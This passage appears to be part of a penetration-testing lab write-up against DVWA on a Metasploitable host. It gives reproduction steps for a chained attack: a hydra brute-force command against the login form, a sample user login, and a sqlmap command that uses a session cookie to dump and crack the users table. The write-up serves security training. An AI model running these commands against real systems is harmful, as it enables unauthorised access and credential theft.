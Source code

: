 Once logged into DVWA, I was able to access the vulnerable SQL injection page.

By using `sqlmap` with the authenticated session cookie, I successfully dumped database contents, including user credentials and password hashes.


#### 3.6.2 Steps to Reproduce

**Step 1**: Use `hydra` to brute force non-admin credentials 

- Have `users.txt` and `passwords.txt` in the same folder where we run hydra
- Run: 
    ```bash
    hydra -L users.txt -P passwords.txt <metasploitable_ip> http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
    ```

**Step 2**: Login manually to DVWA as that user

- E.g. `gordonb` / `abc123`
- Click SQL Injection in the left sidebar (to confirm that login succeeded and you now have access to the vulnerable page that was previously locked unless authenticated)

**Step 3**: Use `sqlmap` with session cookie to exploit SQLi vulnerability

- Find session cookie in dev tools
- Run `sqlmap` from Kali terminal with the cookie to dump users
    ```bash
    sqlmap -u "http://<metasploitable_ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
    --cookie="PHPSESSID=abcd1234xyz; security=medium" \
    --batch \
    -D dvwa -T users --dump
    ```
- This will:
    - Reuse the brute-forced session
    - Exploit SQL injection
    - Dump the contents of the users table:
        - Shows user data, password hashes, and even cracks them

- Screenshots of the chained exploit: 
